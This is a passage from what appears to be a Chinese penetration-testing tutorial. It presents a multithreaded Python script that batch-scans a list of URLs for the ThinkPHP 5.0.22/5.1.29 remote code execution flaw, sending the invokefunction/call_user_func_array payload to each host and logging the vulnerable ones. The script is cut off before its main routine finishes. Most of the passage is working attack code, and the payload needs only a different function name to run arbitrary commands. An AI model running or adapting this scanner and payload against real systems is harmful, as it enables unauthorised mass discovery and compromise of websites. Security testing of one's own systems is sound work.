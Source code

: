 连接成功

### thinkphp批量检测

thinkphp的版本这么多，如果kali里面的漏洞库没有，而在搜索引擎上去搜索又太耗费时间，所以用一个批量检测thinkphp漏洞的脚本

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
name: thinkphp远程代码检测
description: ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞
'''


import re
import sys
import requests
import queue
import threading
from bs4 import BeautifulSoup
class thinkphp_rce(threading.Thread):
    def __init__(self, q):
        threading.Thread.__init__(self)
        self.q = q
    def run(self):
        while not self.q.empty():
            url=self.q.get()
            headers = {"User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"}
            payload = r"/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1"
            vulnurl = url + payload
            try:
                response = requests.get(vulnurl, headers=headers, timeout=3, verify=False, allow_redirects=False)
                
                soup = BeautifulSoup(response.text,"lxml")
                if 'PHP Version' in str(soup.text):
                    print ('[+] Remote code execution vulnerability exists at the target address')
                    print ('[+] Vulnerability url address ' + vulnurl)
                    with open('target.txt','a') as f1:
                        f1.write(vulnurl+'\n')
                    f1.close()
                else:
                    print ('[-] There is no remote code execution vulnerability in the target address')
            except:
                print ('[!] Destination address cannot be connected')
def urlget():
    with open('url.txt','r')as f:
        urls=f.readlines()
        for tmp in urls:
            if '//' in tmp:
                url=tmp.strip('\n')
                urlList.append(url)
            else:
                url='http://'+tmp.strip('\n')
                urlList.append(url)
        return(urlList)
    f.close()

if __name__=="__main__":
    print('''----------------扫描开始-------------------
```